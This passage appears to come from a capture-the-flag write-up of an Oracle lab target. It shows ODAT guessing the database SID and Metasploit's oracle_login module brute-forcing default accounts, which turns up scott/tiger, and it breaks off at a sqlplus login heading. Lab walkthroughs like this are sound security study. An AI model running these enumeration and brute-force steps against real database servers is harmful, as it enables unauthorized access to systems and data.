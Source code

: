 So we get the same SID we got from Metasploit too

```bash
root@kali:/opt/odat# python3 odat.py sidguesser -s 10.10.10.82 -p 1521
odat.py:52: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp

[1] (10.10.10.82:1521): Searching valid SIDs
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
[+] 'XE' is a valid SID. Continue...         
[+] 'XEXDB' is a valid SID. Continue...
```

### Finding Users Information

We Got SID so, now let’s move to the next task and extract the user account information. From this point, you can connect to the listener and brute-force credentials.

For this I gonna use another module from Metasploit `admin/oracle/oracle_login`

```bash
msf5 auxiliary(admin/oracle/oracle_login) > options

Module options (auxiliary/admin/oracle/oracle_login):

   Name     Current Setting                                                              Required  Description
   ----     ---------------                                                              --------  -----------
   CSVFILE  /usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv  no        The file that contains a list of default accounts.
   RHOST                                                                                 yes       The Oracle host.
   RPORT    1521                                                                         yes       The TNS port.
   SID      ORCL                                                                         yes       The sid to authenticate with.

msf5 auxiliary(admin/oracle/oracle_login) > set RHOST 10.10.10.82
RHOST => 10.10.10.82
msf5 auxiliary(admin/oracle/oracle_login) > set SID XE
SID => XE
msf5 auxiliary(admin/oracle/oracle_login) > run

[*] Starting brute force on 10.10.10.82:1521...
[+] Found user/pass of: scott/tiger on 10.10.10.82 with sid XE
[*] Auxiliary module execution completed
```

So we got a valid credentials `scott/tiger`

### Login with sqlplus
